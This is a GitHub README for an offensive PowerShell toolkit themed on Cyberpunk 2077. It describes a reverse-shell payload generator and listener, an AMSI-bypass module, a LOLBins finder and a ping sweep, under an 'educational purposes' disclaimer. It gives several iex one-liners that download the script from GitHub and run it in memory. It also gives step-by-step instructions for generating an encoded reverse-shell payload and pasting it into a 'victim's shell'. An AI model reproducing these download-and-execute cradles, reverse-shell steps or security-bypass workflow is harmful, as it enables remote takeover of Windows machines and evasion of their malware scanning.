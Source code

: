 <div align="center" style="display:flex;">
  <img src="https://github.com/h0ru/antiarasaka/assets/117091833/c5e7af4a-d7b7-484e-be27-ea9fbed97749" width="800">
</div>

- - - 

> [!Warning]
> **This program was written and designed for educational purposes, with features associated with the world of Cyberpunk 2077.** \
> **The project's author does not take responsibility for any use of the tool and maintains its use strictly for educational purposes.**

- - -

> [!NOTE] 
> **This project explores ideas that have already been developed in my previous projects, but it was created to optimize and also motivate me to create something larger.**\
> **Being a fan of the Cyberpunk 2077 story, I sought inspiration in "something" that could counter Arasaka. So here is the idea: AntiArasaka T00l K1t.**

- - -

### What will you find here?

```
aka.ps1
├──AntiArasaka-Alias               # Similar to Get-Alias
├──AntiArasaka-Help                # Similar to Get-Help
├──LOLBins Finder             
|  └──AntiArasaka-Binaries         # Based on LOLBAS Projetct
├──Generator RevShell & Listener           
|  ├──AntiArasaka-Listener         # Native powershell listener
|  └──AntiArasaka-Payload          # PowerShell paylaod base64 encoded
├──AMSI-Reaper
|  └──AntiArasaka-Reaper           # Based on my project AMSI-Reaper
└──PSWEEPX
   └──AntiArasaka-Sweep            # Based on my project PSWEEPX from icmp-quickhacks
```

- - -

### How to use?

> [!TIP]
> #### _Less DISK, more RAM_
```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1')
```
```
iex (iwr https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```
```
iex (irm https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```

> [!TIP]
> #### _Use the aliases_
```
        Command                          Alias
        -------                          ------
        AntiArasaka-Alias          ->     aaa
        AntiArasaka-Help           ->     aah
        AntiArasaka-Binaries       ->     aab
        AntiArasaka-Listener       ->     aal
        AntiArasaka-Payload        ->     aap
        AntiArasaka-Reaper         ->     aar
        AntiArasaka-Sweep          ->     aas
```

> [!TIP]
> #### _What is the purpose of the AntiArasaka-Binaries?_
- Based on the concept of the 198 exploits cataloged at: https://lolbas-project.github.io, I wanted to create a small validator using PowerShell, just a way to verify what we have in the current system that can be used as LOLBINS.
- Good references to LOLBINS: [The LOLBAS Project](https://mitre-attack.github.io/attack-navigator/#layerURL=https://lolbas-project.github.io/mitre_attack_navigator_layer.json)
- How to use AntiArasaka-Binarie.:
```
AntiArasaka-Binarie -Filter .exe, .dll, .ps1
AntiArasaka-Binarie -Filter .vbs
AntiArasaka-Binarie -Name cmd.exe
AntiArasaka-Binarie -Name .bat
AntiArasaka-Binarie -Name winrm.vbs
```

> [!TIP]
> #### _How to use AntiArasaka-Listener & AntiArasaka-Payload_
- Attention to these errors:
![image](https://github.com/h0ru/antiarasaka/assets/117091833/63e1ed73-2629-4a2d-87a0-ec7b388d5e34)
![image](https://github.com/h0ru/antiarasaka/assets/117091833/75af46c3-5875-4986-8a73-32b1e849fc49)
```
1. aap -i 192.168.1.1 -p 443 #Payload
2. [+] Payload copied to clipboard! Use Ctrl+V to paste and execute.
3. aal -i 192.168.1.3 -p 443 #Listener
4. Paste your payload into the victim's shell (Consider hosting the shell on a file and requesting it remotely)
```

- - -

> [!IMPORTANT]
> - [❗] More updates will come and Anti-Arasaka will have more features!
> - [❗] Did you like the idea and the work? Show your support with a ⭐ to stay updated.
> - [❗] If you're interested in helping or sharing your opinion, reach out to me through public channels or on Discord at **ph4nt0m.zip**.

- - - 
